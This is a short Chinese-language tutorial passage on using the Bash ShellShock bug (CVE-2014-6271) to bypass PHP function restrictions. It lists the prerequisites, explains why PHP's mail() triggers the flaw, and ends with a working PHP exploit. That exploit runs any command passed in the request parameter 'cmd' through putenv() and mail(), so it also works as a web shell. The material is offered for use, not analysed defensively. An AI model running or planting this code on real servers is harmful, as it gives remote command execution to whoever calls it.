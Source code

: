 ## 利用 ShellShock 绕过

**1\. 前提条件**

* 目标OS存在Bash破壳（CVE-2014-6271）漏洞
* PHP 5.*
* linux
* putenv()、mail()可用

**2\. 基本原理**

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行
php里的某些函数(例如:mail()、imap_mail())能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

**3\. exp**

```php
<?php
   function shellshock($cmd) {
  $tmp = tempnam(".","data");
  putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
  mail("a@127.0.0.1","","","","-bv");
  $output = @file_get_contents($tmp);
  @unlink($tmp);
  if($output != "") return $output;
  else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>

```

